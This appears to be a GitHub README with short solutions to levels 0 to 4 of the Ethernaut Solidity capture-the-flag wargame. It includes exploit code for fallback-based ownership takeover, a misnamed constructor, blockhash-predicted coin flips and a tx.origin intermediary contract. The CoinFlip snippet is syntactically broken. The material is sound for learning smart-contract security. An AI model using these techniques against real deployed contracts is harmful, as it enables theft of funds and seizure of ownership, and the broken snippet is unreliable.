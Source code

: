 # The Ethernaut CTF Challenge Solutions

_The Ethernaut is a Web3/Solidity based wargame inspired by [overthewire.org](https://overthewire.org/wargames/), played in the Ethereum Virtual Machine. Each level is a smart contract that needs to be 'hacked'. The game is 100% open source and all levels are contributions made by other players._

Brief solutions for OpenZeppelin's Ethernaut CTF. Writeups pending.

**Completed**

[Level 0: Hello Ethernaut](#HelloEthernaut)  
[Level 1: Fallback](#Fallback)  
[Level 2: Fallout](#Fallout)    
[Level 3: Coin Flip](#CoinFlip)   
[Level 4: Telephone](#Telephone)

<!---

**Pending**
[Level 5: Token](#Token)
[Level 6: Delegation](#Delegation)
[Level 7: Force](#Force)
[Level 8: Vault](#Vault)
[Level 9: King](#King)
[Level 10: Re-entrancy](#Reentrancy)
[Level 11: Elevator](#Elevator)
[Level 12: Privacy](#Privacy)
[Level 13: Gatekeeper One](#GatekeeperOne)
[Level 14: Gatekeeper Two](#GatekeeperTwo)
[Level 15: Naught Coin](#NaughtCoin)
[Level 16: Preservation](#Preservation)
[Level 17: Recovery](#Recovery)
[Level 18: Magic Number](#MagicNumber)
[Level 19: Alien Codex](#AlienCodex)
[Level 20: Denial](#Denial)
[Level 21: Shop](#Shop)
[Level 22: Dex](#Dex)
[Level 23: Dex Two](#DexTwo)
[Level 24: Puzzle Wallet](#PuzzleWallet)
[Level 25: Motorbike](#Motorbike)
[Level 26: Double Entry Point](#DoubleEntryPoint)
[Level 27: Good Samaritan](#GoodSamaritan)
-->

## Requirements

- [Metamask](https://metamask.io/)
- [Remix IDE](https://remix.ethereum.org)

## <a name='HelloEthernaut'></a> 0. Hello Ethernaut

> This level walks you through the very basics of how to play the game.

```solidity
// Call the functions in the order as suggested
> await contract.info()
< 'You will find what you need in info1().'

> await contract.info1()
< 'Try info2(), but with "hello" as a parameter.'

> await contract.info2("hello")
< 'The property infoNum holds the number of the next info method to call.'

> x = contract.infoNum()
// Expand the promise to reveal "42"

> await contract.info42()
< 'theMethodName is the name of the next method.'

> await contract.theMethodName()
< 'The method name is method7123949.'

> await contract.method7123949()
< 'If you know the password, submit it to authenticate().'

// Query the ABI to locate the password() function
> await contract.password()
< 'ethernaut0'

> await contract.authenticate("ethernaut0")
```

## <a name='Fallback'></a> 1. Fallback

> You will beat this level if:
>
> 1. You claim ownership of the contract
> 2. You reduce its balance to 0

```solidity
// First, we contribute some ether:
await contract.contribute({ value: 5 });

// Then we send some ether to make us the owner
sendTransaction({ from: player, to: instance, value: 5 });

// Verify we have claimed ownership
await contract.owner();

// Reduce balance to 0
await contract.withdraw();
```

## <a name='Fallout'></a> 2. Fallout

> Claim ownership of the contract to complete this level.

The contract's constructor is incorrectly titled `Fal1out` instead of `Fallout`. We can call it to claim ownership.

```solidity
// Call the function to claim ownership
contract.Fal1out();

// Verify we have claimed ownership
await contract.owner();
```

## <a name='CoinFlip'></a> 3. Coin Flip

> "Use your psychic abilities" to guess the correct outcome 10 times in a row.

In order to solve, we have a few objectives:

1. Set the contract instance as our target contract
2. Recreate the `flip()` function
3. Pass the `flip()` output into the target instance

Let's begin with recreating a portion of the `flip()` function. We will replicate useful variables of the original function.

```solidity
uint256 lastHash;
uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
```

Now, let's setup the target contract. This supports our first objective.

```solidity
CoinFlip public targetContract;
```

Next, we will create the constructor to receive our target address (for the deployed instance). This completes our first objective.

```solidity
constructor(address _targetAddr) public {
  targetContract = CoinFlip(_targetAddr);
  }
```

Let's replicate the remaining essential aspects of the `flip()` function. This completes our second objective.

```solidity
  function flipSolve() public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    }
    if (lastHash == blockValue) {
      revert();
      }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;
```
Finally, we will pass the side value into the original contract, ensuring our guess is always correct. This completes our final objective.

```solidity
targetContract.flip(side);
```
We patiently call `flipSolve()` 10 times until we have guessed correctly 10 times and solve the level.


## <a name='Telephone'></a> 4. Telephone

> Claim ownership of the contract.

The contract allows for a straightforward exploit given the difference between `msg.sender` and `tx.origin`. By creating a contract that serves an as intermediary to call `changeOwner()`, we can claim ownership of the target contract.

```solidity
// Import the target contract
import './Telephone.sol';

//Create attacking contract
contract HotlineBling {

  // Setup target contract
  Telephone public EthernautHotline;

  constructor(address _targetCellPhone) public {

    // Setup deployed instance as the attack target
    EthernautHotline = Telephone(_targetCellPhone);
  }
    // Execute the attack
    function callTheVictim() public {
        EthernautHotline.changeOwner(msg.sender);
    }

}
```